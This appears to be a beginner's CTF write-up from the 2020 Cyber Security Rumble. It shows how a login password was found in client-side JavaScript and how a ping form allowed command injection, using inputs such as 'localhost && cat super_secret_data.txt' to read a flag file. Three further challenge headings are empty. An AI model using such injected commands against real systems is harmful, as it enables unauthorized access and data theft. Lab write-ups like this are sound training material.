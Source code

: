 ## Table of Contents
**[Summary](#summary)**<br>
**[Cyberwall](#cyberwall)**<br>
**[Zeh](#zeh)**<br>
**[Hashfun](#hashfun)**<br>
**[Wheels n Whales](#wheels-n-whales)**<br>


## Summary

https://ctf.cybersecurityrumble.de/

Team: Lockdown4Co19vid

Placement: 64th out of about 500 scoring teams

Notes: First CTF

Software Used:



## Cyberwall
We are greeted with a login screen that asks the user for their password. The `Lost Password` button just sends an alert to the browser.

![login](https://github.com/NKeil/ctf_writeups/blob/main/2020_cyber_security_rumble_germany/images/login.png?raw=true)

Taking a look at the HTML file, we find that JavaScript code is imbedded to validate the password input, which gives us the password in plain text.

```
function checkPw() {
  var pass = document.getElementsByName('passwd')[0].value;
  if (pass != "rootpw1337") {
    alert("This Password is invalid!");
    return false;
  }
  window.location.replace("management.html");
}
```

After we login, we find links to 5 pages, 4 of which have just text and images. The 5th however, has an input box to `Test Host Connection` by inputting an argument to `ping`. 

![ping](https://github.com/NKeil/ctf_writeups/blob/main/2020_cyber_security_rumble_germany/images/ping.png?raw=true)

Since our input is being used in the form `ping [input]`, we can test the website's leniency of accepted inputs by appending another command after the hostname such as `localhost && ls -l`, which successfully gives us the output:

```
-rw-r--r-- 1 root root   16 Oct 15 12:49 requirements.txt
drwxr-xr-x 3 root root 4096 Oct 15 12:49 static
-rw-r--r-- 1 root root   85 Oct 15 12:49 super_secret_data.txt
drwxr-xr-x 2 root root 4096 Oct 15 12:49 templates
-rw-r--r-- 1 root root 1070 Oct 15 12:49 webapp.py
-rw-r--r-- 1 root root   23 Oct 15 12:49 wsgi.py
```

We now can read the file `super_secret_data.txt` with the input `localhost && cat super_secret_data.txt`, giving us the flag
```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```

## Zeh
## Hashfun
## Wheels n Whales
